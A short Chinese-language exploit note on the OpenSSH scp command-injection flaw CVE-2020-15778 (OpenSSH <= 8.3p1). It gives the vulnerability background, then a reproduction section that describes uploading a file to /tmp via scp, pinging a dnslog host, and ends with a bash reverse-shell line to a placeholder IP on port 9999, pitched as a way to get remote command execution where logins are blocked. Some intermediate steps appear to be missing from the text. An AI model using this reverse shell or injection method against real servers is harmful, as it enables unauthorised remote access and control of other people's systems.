

# OpenSSH 命令注入漏洞 CVE-2020-15778 

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

<a-checkbox checked>OpenSSH <= 8.3p1</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="可用于目标不允许远程登录但SCP开启的情况下远程命令执行" description="" showIcon>
</a-alert>

<br/>

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下



执行命令 ping dnslog


反弹shell 更换命令即可

```plain
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```